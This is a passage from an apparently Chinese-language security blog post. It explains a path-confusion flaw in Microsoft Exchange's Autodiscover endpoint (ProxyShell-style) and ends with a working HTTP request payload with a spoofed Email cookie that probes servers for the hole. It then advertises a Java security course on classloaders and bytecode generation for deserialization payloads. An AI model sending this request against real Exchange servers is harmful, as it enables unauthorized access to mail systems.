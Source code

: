 ![]()

其实就是从url中，移除不需要的部分。例如对于`/Autodiscover/autodiscover.json?a=unicodesec@unicodesec.com/mapi/nspi`来讲，如果explicitLogonAddress为`/Autodiscover/autodiscover.json?a=unicodesec@unicodesec.com`，那么最终请求的地址为localhost/mapi/napi

explicitLogonAddress值在`EwsAutodiscoverProxyRequestHandler.ResolveAnchorMailbox`中复制，从请求参数的Email中获取

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811181111.png)

最终payload

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210811181112.png)

如果服务器存在漏洞，则返回当前权限。

    
    
    GET /Autodiscover/autodiscover.json?a=unicodesec@unicodesec.com/mapi/nspi HTTP/2  
    Host: localhost  
    Accept: */*  
    Cookie: Email=Autodiscover/autodiscover.json?a=unicodesec@unicodesec.com  
    Content-Length: 0  
    

下一部分将分享exp的编写方法

欢迎大家报名线上java课程，从代码审计的角度讲解基础漏洞以及Java特有的安全漏洞。

Java安全课程目录，由于篇幅原因只分享部分课程目录，前面还会有很多基础的内容，我会整理为pdf文档发给大家。

#### 第一章

Classloader 原理以及在java安全中的使用

主要讲解Classloader的原理，不同classloader的类型，双亲委派模型以及如何通过反射调用defineClass。在后面的java漏洞利用中，classloader作为将类与JVM的桥梁将会扮演很重要的角色。

##### 讲解内容

classloader的原理，以及如何动态加载一个class文件

###### 双亲委派模型

Tomcat中classloader的讲解，在tomcat中，并没有完全遵守双亲委派模型。为了实现更好的隔离，tomcat使用另外一种方式实现classloader
几种常见的classloader的使用讲解以及在不同漏洞中的利用方法

#### 第二章

Java
asm字节码的使用指南。在java反序列化的payload中，需要动态生成一个javaclass文件。可以通过手工，根据jvm指令构造。也可以通过javaassist自带的编译器构造。

##### 讲解内容

动态生成字节码在java中的作用 javaassist的使用指南 java asm的使用指南 java asm在ysoserial中的使用情况 再探Java
反射原理，使用java asm实现反射机制

#### 第四章

